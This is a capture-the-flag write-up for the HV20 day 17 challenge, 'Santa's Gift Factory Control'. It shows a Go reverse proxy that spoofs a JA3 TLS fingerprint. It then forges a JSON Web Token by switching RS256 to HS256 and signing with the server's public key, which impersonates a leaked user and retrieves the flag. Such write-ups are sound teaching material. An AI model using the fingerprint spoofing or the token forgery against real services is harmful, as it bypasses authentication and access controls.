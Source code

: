 [← Day 16](../day16/) / [↑ TOC](../README.md) / [→ Day 18](../day18/)


# Day 17 / HV20.17 Santa's Gift Factory Control



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: fix86
* Tags:   `#crypto` `#web-security`
* Level:  Hard

Santa has a customized remote control panel for his gift factory at the north
pole. Only clients with the following fingerprint seem to be able to connect:

`771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0`


### Mission

Connect to Santa's super-secret control panel and circumvent its access
controls.

[Santa's Control Panel](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/)


### Hints

* If you get a `403 forbidden`: this is part of the challenge
* The remote control panel does client fingerprinting
* There is an information leak somewhere which you need to solve the challenge
* The challenge is not solvable using brute force or injection vulnerabilities
* Newlines matter, check your files



## Solution


### Overcoming the 403

Searching the web for the finger print number from the challenge description
unveils that it's a [JA3 finger print](https://github.com/salesforce/ja3).

There is only one project discoverable on the web that provides the means to
mimic a JA3 finger print. It's called [JA3Transport] and it's written in Go.
Here is a [blog post] kind of article about impersonating JA3 finger prints.

[JA3Transport]: https://github.com/cucyber/JA3Transport
[blog post]: https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42

The project was used to ultimately build a proxy (thanks again _mcia_) thus
enabling to use a standard web browser while impersonating the JA3 finger print …

```go
package main

import (
	"fmt"
	"github.com/CUCyber/ja3transport"
	"log"
	"net/http"
	"net/http/httputil"
	"net/url"
)

func main() {
	// start proxy
	http.HandleFunc("/", Proxy)
	fmt.Println("About to listen on port 8081...")
	log.Fatal(http.ListenAndServe(":"+"8081", nil))
}

func Proxy(res http.ResponseWriter, req *http.Request) {
	uri := "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land"
	serveReverseProxy(uri, res, req)
}

func serveReverseProxy(target string, res http.ResponseWriter, req *http.Request) {
	// parse the url
	uri, _ := url.Parse(target)
	tr, _ := ja3transport.NewTransport("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")

	proxy := httputil.NewSingleHostReverseProxy(uri)
	proxy.Transport = tr
	proxy.ServeHTTP(res, req)
}
```

Now that the page is accessible, it looks like this …

![](screenshot_login.png)


### Searching and finding an additional angle

After erratic attempts to find any aspect about this web page that could be
leveraged, finally the topic [JSON Web Token] came into the focus of attention.

[JSON Web Token]: https://en.wikipedia.org/wiki/JSON_Web_Token

While trying to login with the credentials `admin`/`admin`, two noticeable
things happened:

1. The browser was suddenly given a JSON Web Token cookie.
2. There was a strange message in the HTML source code …

   `<!--DevNotice: User santa seems broken. Temporarily use santa1337.-->`

   This is probably the info leak that is mentioned in the challenge hints.

There exists a set of [critical vulnerabilities regarding JSON Web Tokens][vuls]
that are – at least to me – astounding. The vulnerability that is used for this
challenge is the sweetest of the bunch.

[vuls]: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/

In a [JSON Web Token] there are at least the following two methods to sign and
verify a token: _RSA_ and _HMAC_. 

With _HMAC_ the idea is that the signing key is kept secret and is used only by
the server to verify authenticity.

With _RSA_ the signing key is a secret private key and the verification key is
a public key. Not only the server but everybody can verify the authenticity of
such tokens. The URL to the public key is even part of the token.

The vulnerability originates in the fact that the server side library that
handles the tokens can be told by the user that any given token was not signed
with the _RSA_ method (as previously published by the server) but was signed
with the _HMAC_ method. The fatality about this is that the server will
automatically assume, that the public _RSA_ key is a private _HMAC_ key and
will use it to verify the token. And since that key is public to anyone, the
attacker can use it to sign arbitrary tokens. How cool is that ? `(o_O)`


### Cookie modding

The genuine cookie that was received from the server is decoded into the
following structure …

```json
Header:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "/keys/1d21a9f945"
}

Payload:
{
  "exp": 1609416502,
  "iat": 1609412902,
  "sub": "none"
}

Signature:
{
   [some bytes]
}
```

Next the public key is retrieved from the server …

```
$ curl -O http://localhost:8081/keys/1d21a9f945"
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY
Ri7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb
SYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs+2tmcgui/bFn
wC+qByZtIlsP+rlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3
US8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq+tH95/9u
X/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw
zwIDAQAB
-----END PUBLIC KEY-----
```

At last a new cookie is forged (with the help of [CyberChef]) intentionally with
the _wrong_ signing method _HMAC_. This produces the following cookie header and
payload …

[CyberChef]: https://gchq.github.io/CyberChef/#recipe=JWT_Sign('-----BEGIN%20PUBLIC%20KEY-----%5CnMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY%5CnRi7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb%5CnSYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs%2B2tmcgui/bFn%5CnwC%2BqByZtIlsP%2BrlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3%5CnUS8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq%2BtH95/9u%5CnX/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw%5CnzwIDAQAB%5Cn-----END%20PUBLIC%20KEY-----%5Cn','HS256')&input=ewogICJleHAiOiAxNjA5NDE2NTAyLAogICJpYXQiOiAxNjA5NDEyOTAyLAogICJzdWIiOiAic2FudGExMzM3Igp9

JWT Header …

```json
{
  "alg" : "HS256",
  "typ" : "JWT"
}
```

Payload …

```json
{
  "exp": 1609416502,
  "iat": 1609412902,
  "sub": "santa1337"
}
```

The completely encoded cookie …

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2MDk0MTY1MDIsImlhdCI6MTYwOTQxMjkwMiwic3ViIjoic2FudGExMzM3In0.8QCk0LVJEEf-zieqEE6DPf3QM8nAgYmSqTw9Pei8Jvc
```

… is used to replace the cookie that was received from the server earlier.

Et voilà, the server thinks it's Santa and gives access:

![](screenshot_access.png)

The flag is in a comment in the HTML source code:

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>Santa's Control Panel</title>
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link href="static/bootstrap/bootstrap.min.css" rel="stylesheet" media="screen">
        <link href="static/fontawesome/css/all.min.css" rel="stylesheet" media="screen">
        <link href="static/style.css" rel="stylesheet" media="screen">
    </head>
    <!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
    <body class="loggedin">
        <nav class="navtop">
            <div>
```

--------------------------------------------------------------------------------

Flag: `HV20{ja3_h45h_1mp3r50n4710n_15_fun}`

[← Day 16](../day16/) / [↑ TOC](../README.md) / [→ Day 18](../day18/)
